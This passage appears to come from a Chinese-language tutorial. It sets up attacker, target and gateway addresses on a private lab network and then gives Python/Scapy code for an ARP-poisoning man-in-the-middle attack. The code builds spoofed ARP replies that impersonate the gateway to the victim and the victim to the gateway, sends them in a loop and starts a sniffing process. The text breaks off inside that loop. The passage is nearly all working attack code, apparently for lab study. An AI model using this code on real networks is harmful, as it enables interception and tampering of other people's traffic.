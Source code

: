 代码如下：

- 攻击主机 IP：10.0.2.4
- 目标主机 IP：10.0.2.21
- 网关 IP：10.0.2.1

```python
from multiprocessing import Process  
from scapy.all import *  
import os, sys, time  
  
class Arper:  
    def __init__(self, victim, gateway, interface='eth0'):  
        self.victim = victim  
        self.victimmac = get_mac(victim)  
        self.gateway = gateway  
        self.gatewaymac =get_mac(gateway)  
        self.interface = interface  
        conf.iface = interface  
        conf.verb = 0  
        print(f'Initialized {interface}: ')  
        print(f'Gateway ({gateway}) is at {self.gatewaymac}.')  
        print(f'Victim ({victim}) is at {self.victimmac}')  
        print('-'*30)  
  
    def run(self):  
        self.poison_thread = Process(target=self.poison)  
        self.poison_thread.start()  
  
        self.sniff_thread = Process(target=self.sniff)  
        self.sniff_thread.start()  
  
    def poison(self):  
        # poison_victim: 欺骗 victim，假装为网关给 victim 发送  
        poison_victim = ARP()  
        poison_victim.op = 2  
        poison_victim.psrc = self.gateway  
        poison_victim.pdst = self.victim  
        poison_victim.hwdst = self.victimmac  
        print(f'ip src: {poison_victim.psrc}')  
        print(f'ip dst: {poison_victim.pdst}')  
        print(f'mac src: {poison_victim.hwsrc}')  
        print(f'mac dst: {poison_victim.hwdst}')  
        print(poison_victim.summary())  
        print('-'*30)  
        # poison_gateway: 欺骗 gateway，假装为 victim 给网关发送  
        poison_gateway = ARP()  
        poison_gateway.op = 2  
        poison_gateway.psrc = self.victim  
        poison_gateway.pdst = self.gateway  
        poison_gateway.hwdst = self.gatewaymac  
        print(f'ip src: {poison_gateway.psrc}')  
        print(f'ip dst: {poison_gateway.pdst}')  
        print(f'mac src: {poison_gateway.hwsrc}')  
        print(f'mac dst: {poison_gateway.hwdst}')  
        print(poison_gateway.summary())  
        print('-'*30)  
  
        print('Beginning the ARP poison. [CTRL-C to stop]')  
        while True:  
            sys.stdout.write('.')  # 往stdout缓冲区中写入 .
            sys.stdout.flush()  # stdout缓冲区不会一有内容就输出，该函数的作用就是显示的触发 stdout 输出缓冲区的内容
            try:  
                send(poison_victim)  
                send(poison_gateway)  
```
